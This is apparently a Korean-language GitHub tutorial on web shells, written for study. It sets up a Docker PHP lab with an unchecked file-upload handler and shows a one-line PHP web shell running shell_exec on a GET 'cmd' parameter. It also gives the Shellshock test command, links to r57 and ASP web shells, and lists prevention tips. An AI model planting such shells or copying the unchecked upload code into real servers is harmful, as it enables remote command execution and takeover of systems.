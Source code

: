 ## web shell

해당 기법들은 공부용으로만 사용하기 바랍니다.

업로드 취약점을 통해 시스템에 명령을 내릴수 있는 코드를 칭하지만 내부적인 코드로 인해서 발생할수 있다.

해당 취약점이 발생되면 시스템에 원격으로 백도어를 심을수 있다.

대표적인 웹셀파일 r57.php 


# 시작하기


해당 파일시작하기

테스트 PHP-fpm-Apache을 설치해야한다. 

해당 설치는 도커파일로 대체한다. 다음과 같은 커멘드를 입력하게되면 위의 세팅이 들어간 도커가 실행된다.

```
docker run --rm -p 80:80 -v <sourcePath>:/var/www/html php:7.2-apache
```

```<sourcePath>```폴더에 fileAction.php 파일을 만든후 다음과 같은 코드를 넣는다.


```
//파일업로드 HTML 코드
<form enctype="multipart/form-data" action="fileAction.php" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="3000000" />
    이 파일을 전송합니다: <input name="userfile" type="file" />
    <input type="submit" value="파일 전송" />
</form>
```


실제 파일의 업로드하는 PHP 코드

move_uploaded_file을 이용하여 파일을 업로드 하는 코드

```
<?php

$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . basename($_FILES['userfile']['name']);

echo '<pre>';
if (move_uploaded_file($_FILES['userfile']['tmp_name'], $uploadfile)) {
    echo "파일이 유효하고, 성공적으로 업로드 되었습니다.\n";
} else {
    print "파일 업로드 실패";
}

echo '자세한 디버깅 정보입니다:';
print_r($_FILES);

print "</pre>";

?>
```

취약점을 가진 php파일을 생성후 

해당 파일을 업로드한다.

![업로드](https://github.com/rinechran/Hws/blob/master/img/fileupload.jpg)
```
<?php
echo shell_exec($_GET['cmd']);
?>
```
그리고 간단한 쉘스크립트를 GET프로토콜에 데이터 파라메타인 cmd에 쉘 스크립트를 실행해보자.

![업로드](https://github.com/rinechran/Hws/blob/master/img/exec.jpg)

위의 작업을 좀더 편하게 해주는 php가 대표적으로 r57.php 이 있다.

php를 업로드하여 들어가보자

![업로드](https://github.com/rinechran/Hws/blob/master/img/b374kmini.jpg)

또한 root가아니여도 2014-6271(Shell Shock) 사태처럼 쉘취약점을 이용하여 root를 탈취 가능하다.

bash Shell 취약점 테스트 

```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```


## 예방법

- 웹 서버의 파일 업로드 취약점 제거

- 파일 업로드 폴더의 실행 제한

- 웹 서버의 실행을 root로 하지말기(이는 예방법은 아니고 최소한의 피해를 방지하기 위한 보호법이라고 보는게 좋다.)

## 타 언어의 webShell

Node :  https://s1gnalcha0s.github.io/node/2015/01/31/SSJS-webshell-injection.html
eval같은 취약함수 때문에 발생하기때문에 사용에 주의가 필요하다.


asp : https://github.com/tennc/webshell/blob/master/asp/webshell.asp


## 참조

https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084

http://www.r57.gen.tr/
